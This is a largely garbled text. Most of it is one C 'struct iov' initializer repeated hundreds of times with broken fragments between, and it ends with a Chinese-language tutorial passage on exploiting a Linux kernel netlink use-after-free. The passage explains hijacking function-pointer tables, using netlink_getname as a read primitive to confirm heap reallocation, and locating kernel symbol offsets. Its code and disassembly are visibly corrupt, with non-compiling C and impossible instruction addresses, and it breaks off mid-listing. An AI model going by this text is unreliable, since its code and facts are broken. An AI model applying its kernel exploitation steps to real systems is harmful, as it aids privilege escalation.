    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

     = initialize mhdr
    struct iov i i = {
        struct.base = buf,
        iov.len = =(buf),
    .

    // =(buf

    
 i i i
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    
 
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.len = sizeof(buf),
    struct

    
    

    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
        iov.len = sizeof(buf),
    };

    // initialize m


    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.     = sizeof(buf),
    

    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.len = sizeof(buf),
    


    
    
    

    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.len = sizeof(buf),
    

        
.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        
.base = buf,


.len = =(bufbuf
        

        // initialize m

    struct i i i = = {
        
.base =buf,


.len = =(buf),
    

        
 initialize m


 i i i i = =


. = = =


... = =,
    
    // initialize m
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        
.len = =(bufbuf
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.len = sizeof(buf),
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        
.base = buf,
        
.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        
.base = buf,
        
.len = sizeof(buf),
    };

    // initialize m

    struct iov iov = {
        
.base = buf,
        
.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        
.base = buf,
        
        .len = =(buf

        

    // initialize mhdr
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.len = sizeof(buf),
    
    
        // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
        
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        
.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    

    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
        // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };.len = sizeof(buf),
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    

    .len = sizeof(buf),
    
    
    // initialize mhdr
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov i { = {
        iov.base = buf,
        len.lenlen =(buf),
        
        
     m initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    
    // initialize initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    
    // initialize initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    
    // initialize mhdr
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    

    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = =(buf),
    };
    
    
     initialize m


 i i i i = {


. =. = =


 =.len = =(
    

    
    
         initialize
    

    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m

    struct iov i { = {


.. = =


..len = =(buf


 i i i = =


 = = = =


 = = =


    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m m
    struct i i i i = {
        
.. = =,


.. = = = =(


    
    // initialize m

    struct iov iov = {
        iov.base = buf,
        iov.len = =(buf),
    

    
    //
 m

    struct i i i = = {


.. = = =,
        
        .len = = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    //     mhdr
    
    struct iov iov = {
        iov.base = buf,
        iov.len = =(buf),
    };


    //
 m

    struct i i i = = {
        
.. = = =,
        
        .len = = =(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        
.len = =(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        
.base = buf,
        
.len = =(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        
.len = =(buf),
        


        // m m

    struct i i i = = {
        ..base = =,


.. = = =(buf

    


    // m m

    struct i i i = = =


.. = =,


        .len = = =(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m m
    struct i i i i = {


.. = = buf

        ..len = =(buf

    


    //
 m


     i i i i = =


..base = =


..len = =(


        


 i i i i = =


 =


    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct i i i i = {
                ..base = =,
                .len = =(buf),
    
    
    // initialize m m
    
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m m
    struct i i i i = {
        
.. = =,


.. = = =


 i i


    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m m
    struct i i i i = {
        
.. = =,


.. = = =(


    // m m

    struct i i i = = {

... = =


 =


    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize m m
    struct i i i i = {
        
.. = = =


.. = =


    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        
.len =
(buf),
    };
    
    


 m


 =


    


    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };
    
    //
 m m
    struct
 i i i = {


 = =


    


正如我们所看到的核心概念 #1，第一个是利用虚函数表（VFT）指针来实现某些功能。通过覆盖并调用它们可以控制执行流。这正是我们在这里要做的。

## 原始门控 (The Primitive Gates)

让我们来处理 UAF（使用后释放）原语。此外，我们可以看到 `sk` 结构体可以通过 `close(unblock_fd)` 控制（或触发）UAF。此外，我们看到 `sk` 结构体是一个悬空指针。它们与 VFT 之间的关系如下：

- struct file_operations socket_file_ops: close(sock) 调用到 sock_close
- struct proto_ops netlink_ops: sock(close) 调用到 netlink_release)（使用了 `sk_defensive`）

这些 VFT 都是原始门控：每一个 UAF 原语都起始于其中一个函数指针。

然而，我们无法直接控制这些指针。原因是被释放结构是 `struct netlink_sock`。相反，指向这些 VFT 的指针分别存储在 `struct file` 和 `sock` 结构体中。我们稍后将利用这些 VFT。

例如，让我们看看 `netlink_getname(struct sock (netlink_ops))`，它是通过悬空指针（前向）调用的：

```
SYSCALL_DEFINE(getname, ...) // 调用 sock->ops->getname
netlink_getname()
```

```c
static int netlink_getname(struct sock *sock, struct nl_addr *naddr)
{
    int len = sock->sk; // <---- 悬空指针
    struct netlink_sk *nl = sock->sk; // <---- 悬空指针
    struct sock_addr *naddr = (struct sock_addr *)naddr; // <---- 将转换为用户态

    if (nl->family == NETLINK) {
        naddr->nl_pad = 0;
        len = sizeof(naddr); // <---- 被 getsockname 设置为零
        if (syscall)
            naddr->nl_pid = nl->sk_dist_pid;
        naddr->nl_groups = nl->netlink_group_mask(nl_dist_group); // <---- 未控制读取
    } else {
        naddr->nl_pid = nl->sk_pid;
        naddr->nl_groups = nl->groups(0) ? nl->groups(0) : 0; // <---- 未控制读取
    }
    return 0;
}
```

哇！这是一个“未控制读取”原语（两次读取且无副作用）。我们将利用它来提高利用的可靠性，以便检测重新分配是否成功。

## 重新分配检查器实现 (Reallocation Checker Implementation)

让我们开始尝试这个原语检查，并检查重新分配是否成功！我们如何做到这一点？
计划如下：

1. 找到 netlink-pid 和 netlink-groups 的精确偏移量（即 `.init_realloc_data_()`）。
2. 使用 `getsockname()` 向我们的重新分配区域写入某些值，并检查返回值。

如果返回的地址与我们的值匹配，意味着重新分配成功了，我们利用了第一个 UAF 原语（未控制读取）！你将没有奢侈去验证利用是否生效。

为了找到 netlink-pid 和 netlink-groups 的偏移量，我们需要获取未保护格式的二进制文件。如果你不知道如何检查，请查看此链接。你还需要检查 `/boot/system.map-(uname -r)` 文件。在某些情况下，你没有该文件的权限，可以尝试 `/proc/kallsyms`（需要 root 权限）。

好了，我们准备好反汇内核内核。Linux 内核实际上是一个 ELF 二进制文件。因此，可以使用 **objdump** 等 binutils 工具。

netlink-pid 和 netlink-groups 在 `netlink_getname()` 函数中使用的具体效果是什么？禁用它！在此 System.map 中 `netlink_getname()` 的第一个地址：

```
$ netlink_getname() System.map-2.6.32
ffffffff84b6ea0a t netlink_getname
```

**注意**：在我们的情况下，`netlink_getname()` 将加载在地址 `0xffffff84b6ea0`。

接下来，使用反汇编工具打开模块（不是 VMIZLU），并分析 `netlink_getname()` 函数：

```
ffffffff84b6ea0a      55              push   rbp
ffffffff84b6ea0b      48 89 e5         mov    rbp,rsp
ffffffff84b6ea0c      e8 97 3f 05 6f   call   0xffffff84b100ac40
ffffffff84b6ea0d      48 47 38          mov    rax,[rdi+0x38]
ffffffff84b6ea0e      85 c9              test   ecx,ecx
ffffffff84b6ea0f      48 8b 06 10 00   mov    WORD PTR [rsi],0x10
ffffffff84b6ea10      66 47 06 02 00   mov    WORD PTR [rsi+0x02],0x00
ffffffff84b6ea11      c7 02 08 00 00 00   mov    DWORD PTR [rdi],0xc
ffffffff84b6ea12      74 c7              jne    0xffffff84b1406be+0x2c
